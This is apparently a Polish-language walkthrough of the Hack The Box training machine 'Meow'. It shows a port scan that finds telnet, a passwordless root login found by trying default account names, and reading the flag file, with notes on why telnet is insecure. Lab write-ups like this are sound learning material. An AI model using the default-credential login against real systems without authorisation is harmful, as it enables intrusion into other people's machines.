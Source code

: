 # 🐾 HTB: Meow

## 📌 Informacje ogólne

- **Nazwa maszyny:** Meow  
- **Poziom trudności:** Very Easy  
- **Cel:** Uzyskać dostęp do maszyny i odczytać flagę użytkownika (`flag.txt`)

---

## 🌐 Krok 1 – Rekonesans

```bash
nmap -sV nmap 10.129.XXX.XXX
```

**Wynik:**
```
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
```

---

## 📞 Krok 2 – Łączenie się przez Telnet

```bash
telnet 10.129.XXX.XXX
```

Po połączeniu próbujemy domyślnych użytkowników, którzy mogą nie wymagać hasła, np.:

- `admin`
- `administrator`
- `root` ✅

Zadziałało konto `root`.

---

## 🏁 Krok 3 – Znalezienie flagi

Po zalogowaniu:

```bash
ls
cat flag.txt
```

**Flaga:**

```
HTB{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
```

---

## 📓 Notatki dodatkowe

- Telnet to **niezaszyfrowany i niebezpieczny protokół**, który nie powinien być używany w systemach produkcyjnych.
- Celem tej maszyny jest **zapoznanie się z interfejsem HTB i sposobem zdobywania flag**.

---

## ✅ Podsumowanie

- ✅ Wykonano skanowanie portów (`nmap`)
- ✅ Wykryto usługę `telnet`
- ✅ Zalogowano się bez hasła
- ✅ Odczytano flagę z `flag.txt`

